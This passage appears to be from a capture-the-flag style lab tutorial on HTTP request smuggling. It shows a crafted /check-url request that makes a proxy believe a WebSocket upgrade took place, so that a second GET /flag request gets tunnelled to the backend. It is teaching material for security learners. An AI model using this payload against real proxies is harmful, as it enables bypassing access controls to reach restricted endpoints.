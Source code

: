 We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to /check-url against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: 10.10.235.194:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.10.235.194:8002

```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp (note that you need to add two newlines at the end of your payload in Burp):

![Smuggling a request through a fake websocket connection](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/4c210998e9e3ff3cd2bbad3ed5d92fe7.png) 

Remember that`/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.


